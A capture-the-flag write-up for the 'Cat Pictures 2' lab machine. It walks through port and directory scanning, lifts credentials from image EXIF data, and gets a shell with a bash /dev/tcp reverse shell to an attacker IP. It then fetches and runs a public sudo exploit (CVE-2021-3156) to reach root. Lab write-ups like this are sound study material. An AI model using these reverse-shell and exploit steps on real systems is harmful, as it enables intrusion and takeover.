 [![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&size=35&pause=1000&color=6A0DAD&width=435&lines=Cat+Pictures+2)](https://git.io/typing-svg)

</br>

![Challenge Description](catpic2.png)

# Enumeration
##
### Let's begin with a rapid Nmap scan.
</br>

```bash
root@Fs:.../CTFs/catpictures2# nmap -sCV -oN nmap 10.10.44.70
# Nmap 7.80 scan initiated Mon Jul  3 19:58:08 2023 as: nmap -sCV -oN nmap 10.10.44.70
Nmap scan report for 10.10.44.70
Host is up (0.079s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:f0:03:36:26:36:8c:2f:88:95:2c:ac:c3:bc:64:65 (RSA)
|   256 4f:f3:b3:f2:6e:03:91:b2:7c:c0:53:d5:d4:03:88:46 (ECDSA)
|_  256 13:7c:47:8b:6f:f8:f4:6b:42:9a:f2:d5:3d:34:13:52 (ED25519)
80/tcp   open  http    nginx 1.4.6 (Ubuntu)
| http-robots.txt: 7 disallowed entries 
|_/data/ /dist/ /docs/ /php/ /plugins/ /src/ /uploads/
|_http-title: Lychee
222/tcp  open  ssh     OpenSSH 9.0 (protocol 2.0)
8080/tcp open  http    SimpleHTTPServer 0.6 (Python 3.6.9)
|_http-title: Welcome to nginx!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul  3 19:58:29 2023 -- 1 IP address (1 host up) scanned in 21.17 seconds
```
##
    *80 — lychee*
    *8080 — python http server*
    *22,222 — ssh*
</br>

### Performing a scan using Dirsearch

```bash

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /root/.dirsearch/reports/10.10.187.79/-_23-07-06_21-12-01.txt

Error Log: /root/.dirsearch/logs/errors-23-07-06_21-12-01.log

Target: http://10.10.187.79/

[21:12:01] Starting: 
[21:12:03] 301 -  193B  - /robots.txt 
[21:12:04] 403 -  579B  - /.git/
[21:12:04] 403 -  579B  - /.github/
[21:12:04] 403 -  579B  - /.git/refs/
[21:12:04] 403 -  579B  - /.git/objects/
[21:12:04] 200 -  154B  - /.github/ISSUE_TEMPLATE.md
[21:12:04] 200 -  274B  - /.gitignore
[21:12:04] 200 -  630B  - /.htaccess
[21:12:07] 200 -  387B  - /.user.ini
[21:12:09] 200 -    1KB - /LICENSE
[21:12:10] 200 -    5KB - /README.md
```

I attempted to gather information by exploring the .git repository and robots.txt file, but unfortunately, I didn't find anything of interest.
</br>
After some time, I managed to discover interesting information from the EXIF data extracted from an image.

```
root@Fs:.../CTFs/catpictures2# exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg
ExifTool Version Number         : 12.40
File Name                       : f5054e97620f168c7b5088c85ab1d6e4.jpg
Directory                       : .
File Size                       : 71 KiB
File Modification Date/Time     : 2022:11:07 19:44:37+01:00
File Access Date/Time           : 2023:07:06 21:20:55+01:00
File Inode Change Date/Time     : 2023:07:06 21:19:41+01:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Profile CMM Type                : Little CMS
Profile Version                 : 2.1.0
Profile Class                   : Display Device Profile
Color Space Data                : RGB
Profile Connection Space        : XYZ
Profile Date Time               : 2012:01:25 03:41:57
Profile File Signature          : acsp
Primary Platform                : Apple Computer Inc.
CMM Flags                       : Not Embedded, Independent
Device Manufacturer             : 
Device Model                    : 
Device Attributes               : Reflective, Glossy, Positive, Color
Rendering Intent                : Perceptual
Connection Space Illuminant     : 0.9642 1 0.82491
Profile Creator                 : Little CMS
Profile ID                      : 0
Profile Description             : c2
Profile Copyright               : IX
Media White Point               : 0.9642 1 0.82491
Media Black Point               : 0.01205 0.0125 0.01031
Red Matrix Column               : 0.43607 0.22249 0.01392
Green Matrix Column             : 0.38515 0.71687 0.09708
Blue Matrix Column              : 0.14307 0.06061 0.7141
Red Tone Reproduction Curve     : (Binary data 64 bytes, use -b option to extract)
Green Tone Reproduction Curve   : (Binary data 64 bytes, use -b option to extract)
Blue Tone Reproduction Curve    : (Binary data 64 bytes, use -b option to extract)
XMP Toolkit                     : Image::ExifTool 12.49
Title                           : :8080/764efa883dda1e11db47671c4a3bbd9e.txt
Image Width                     : 720
Image Height                    : 1080
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 720x1080
Megapixels                      : 0.778
```
this part
```Title                           : :8080/764efa883dda1e11db47671c4a3bbd9e.txt```
##
It appears that the system is utilizing The other web server to retrieve Info.

```red
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP

ansible runner (olivetin): port 1337
```
</br>
 samarium:TUmhyZ37CLZrhP
</br>

### Upon obtaining this information, we realized that there is a Gitea server running on port 3000, and we have obtained valid credentials for it.

![Screenshot from 2023-07-06 21-31-32](https://github.com/ACHUX21/Writeups/assets/130113878/d5da60f1-a1cd-4731-af5d-89b6eccc7f87)

# Gaining access
![image](https://github.com/ACHUX21/Writeups/assets/130113878/23cfac7c-5b54-494f-a91b-be69ffc138f1)
</br>

Given our knowledge of Ansible Runner (Olivetin) on port 1337, which enables the execution of Ansible playbooks, I intend to replace the existing "echo" command with a reverse shell.

```bash
bash -c "bash -i >& /dev/tcp/10.18.81.1/14632 0>&1"
```

After obtaining a shell, I discovered an "id_rsa" file, which I utilized to establish a more stable shell.
Subsequently, I attempted to exec Linpeas on the server to conduct further enumeration and analysis.

```bash
bismuth@catpictures-ii:~$ ls
flag2.txt
```

</br>
## Priv-Esc


we have a vulnerable sudo version here.
After patiently waiting during the Linpeas scan, I stumbled upon an interesting CVE (Common Vulnerabilities and Exposures) in the target machine. To gather more information, I conducted a Google search and came across a GitHub proof-of-concept ([! POC](https://github.com/blasty/CVE-2021-3156)) related to the discovered vulnerability.

</br>


Let's set up a Python3 server to share the CVE details with the target.

```bash
root@Fs:.../www/html# ll
total 9.6M
drwxr-xr-x 3 root  root  4.0K Jul  5 18:01 CVE-2021-3156/
-rw-r--r-- 1 root  root  3.1M Jun  4 05:27 linpeas_linux_amd64
-rwxrwxr-x 1 achux achux 817K Jun  6 16:41 linpeas.sh*
-rw-rw-r-- 1 achux achux 5.7M Jun  5 23:55 nmap
-rw-r--r-- 1 root  root   18K Jun  6 15:42 PwnKit
root@Fs:.../www/html# webup
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
! note : webup /=/ alias "webup='python3 -m http.server 8000'"


```bash
bismuth@catpictures-ii:/$ cd /tmp; wget -r 10.18.81.222/CVE-2021-3156/
```

let's go aHead to explore the CVE

```bash
bismuth@catpictures-ii:/tmp/CVE-2021-3156$ ls
brute.sh  hax.c  lib.c  Makefile  README.md
bismuth@catpictures-ii:/tmp/CVE-2021-3156$ make
rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
bismuth@catpictures-ii:/tmp/CVE-2021-3156$ ls
brute.sh  hax.c  lib.c  libnss_X  Makefile  README.md  sudo-hax-me-a-sandwich
bismuth@catpictures-ii:/tmp/CVE-2021-3156$ ./sudo-hax-me-a-sandwich 

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

  manual mode:
    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>

bismuth@catpictures-ii:/tmp/CVE-2021-3156$ ./sudo-hax-me-a-sandwich 0

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **
[+] bl1ng bl1ng! We got it!
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare),1000(bismuth)
# 
```
And now we have pwned the machine
I appreciate your patience❤️ 





 
 













